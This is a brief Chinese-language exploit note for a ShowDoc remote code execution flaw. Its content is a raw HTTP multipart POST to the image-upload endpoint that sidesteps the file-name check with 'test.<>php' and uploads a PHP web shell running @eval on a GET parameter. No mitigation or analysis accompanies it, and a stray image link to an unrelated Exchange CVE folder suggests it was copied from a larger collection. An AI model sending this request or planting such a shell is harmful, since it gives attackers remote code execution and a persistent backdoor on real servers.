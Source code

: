 # ShowDoc 远程代码执行漏洞
Poc：
```
POST /index.php?s=/home/page/uploadImg HTTP/1.1
Host: ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: multipart/form-data; boundary=--------------------------921378126371623762173617
Content-Length: 262

----------------------------921378126371623762173617
Content-Disposition: form-data; name="editormd-image-file"; filename="test.<>php"
Content-Type: text/plain

<?php echo 'vuln_test';@eval($_GET[zxkf])?>
----------------------------921378126371623762173617--
```
![[../../Exchange/CVE-2021-26855 Exchange RCE/exp.png]]

 [@bgbing安全](https://mp.weixin.qq.com/s/oPhV-EmKZEDAxyZm4HuzUA)